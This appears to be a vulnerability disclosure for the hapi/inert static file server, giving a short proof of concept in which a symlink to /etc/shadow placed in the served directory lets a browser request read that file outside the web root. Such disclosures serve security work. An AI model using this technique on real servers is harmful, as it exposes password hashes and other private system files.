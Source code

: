 With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

PoC: 
1. Install hapi: **npm i @hapi/hapi**
2. Run the server as: **node static_server.js**. 

```js
// static_server.js
const Path = require('path');
const Hapi = require('@hapi/hapi');
const Inert = require('@hapi/inert');
const init = async () => {

    const server = new Hapi.Server({
        host: 'localhost',
        port: 3000,
        routes: {
            files: {
                relativeTo: Path.join(__dirname, '.')
            }
        }
    });

    await server.register(Inert);

    server.route({
        method: 'GET',
        path: '/{param*}',
        handler: {
            directory: {
                path: '.',
                redirectToSlash: true
            }
        }
    });

    await server.start();

    console.log('Server running at:', server.info.uri);
};

init();
```

3. Create a symlink file within the directory ln -s /etc/shadow test_shadow.html
4. Request the file within browser http://localhost:3000/test_shadow.html
